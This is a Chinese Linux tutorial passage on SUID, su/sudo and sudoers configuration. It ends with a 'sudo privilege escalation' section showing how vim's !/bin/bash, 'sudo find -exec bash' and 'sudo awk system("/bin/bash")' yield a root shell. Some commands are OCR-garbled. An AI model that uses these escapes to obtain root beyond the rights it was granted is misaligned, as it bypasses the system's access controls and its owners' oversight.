 

### 特殊权限

**suid**

suid，就是某个可执行文件有super超级管理员权限，这个文件普通用户也能用，含有suid的文件，可以让普通用户拥有该文件属主的执行权限，主要针对的是命令文件。比如：

```zsh
# suid令普通用户临时借用root用户的权限
chmod u+s /usr/sbin/passwd

```



**su和sudo**

```zsh
# 切换用户
su 用户 # 当前目录切换
su - 用户 # 切换到家目录
# 推出:exit

# sudo全称：superuserdo，它的作用是用来授权的。就是给普通用户高级权限用的。原因就是很多的操作，如果都需要root用户去做，太麻烦了，所以可以给普通用户做一些授权，普通用户操作就方便了。授权就用到了sudo，Sudo并不是一下子给用户很多权限，而是一个命令一个命令的授权。

# root用户才能修改这个配置。
1.配置/etc/sudoers
# 用户名所有终端=运行的用户身份命令ALL，ALL是所有指令，不能给所有的，不然权限太高了
jaden ALL=(ALL:ALL)		/bin/systemctl,/usr/bin/vim,/usr/sbin/reboot 
# 单独给指令权限，而且要写指令的绝对路径，逗号分割
# 修改完配置文件，保存退出之后，立马就生效了，不需要重启或者重新登录。
# 切换到普通用户，查看可以使用的授权命令
sudo -1
[jaden@localhost ~]S sudo -1
我们信任您已经从系统管理员那里了解了日常注意事项。
总结起来无外乎这三点：
#1）尊重别人的隐私。
#2）输入前要先考虑（后果和风险)。
#3）权力越大，责任越大。
```



### sudo提权

```zsh
vim # 命令模式执行：！/
	# 通过vim修改/etc/sudoers，授权ALL
	# 再通过vim进入一个文件
	# :输入指令，是可以直接输入系统指令的，前面加一个！即可，比如创建一个文件，！touch3.txt
	# 查看3.txt信息如下
	
[jaden@localhost ~]s 11
总用量0
-rw-r--r--1rootroot03月2717:053.txt#以root用户身份创建的文件
#如果在vim文件时，执行！/bin/bash，就进入到了root的命令终端，可以为所欲为。
#这就是sudo提权，但是sudo提权需要借助到可以执行系统指令的交互式的功能，比如vim。

示例2：
find
# sudo find . -exec bash \；#直接进入root的命令终端，这个指令退出root终端可能要退好几次才行，看find找到了几个文件，找到了3个文件，就输入三次exit才能退出。

示例3：
awk 
# sudo awk‘BEGIN {system("/bin/bash")}’ jaden.txt#直接进入到root命令终端，exit直接退出。

```